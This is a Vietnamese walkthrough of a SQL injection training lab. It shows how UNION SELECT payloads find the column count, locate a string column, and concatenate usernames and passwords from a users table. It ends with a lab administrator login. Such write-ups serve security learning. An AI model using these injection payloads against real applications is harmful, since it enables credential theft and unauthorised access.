



## SQLi UNION attack, retrieving multiple values in a single column

1. Lab cho ta biết rằng trong database có một bảng ``users`` chứa username và password

2. Xác định số cột trong bảng category bằng cách sử dụng lần lượt các câu truy vấn UNION SELECT gắn giá trị ``null`` cho từng cột
	Payload: 
	```' UNION SELECT null --```
	```' UNION SELECT null, null --```
-> Xác định được số cột trong bảng category là 2

3. Tiếp theo xác định cột chứa dữ liệu dạng string 
	 Payload: 
	```' UNION SELECT 'test',null --```
	```' UNION SELECT null, 'test' --```



4. Qua đó ta biết được rằng cột 2 có kiểu string. Do chỉ có cột 2 trả về string nên ta sẽ tiến hành nối chuỗi username và password trong 1 câu truy vấn
	Payload:
	```' UNION SELECT null, username || password from users--```



5. Login với ``administrator:s8i5jvyggjzv1nvihot0``

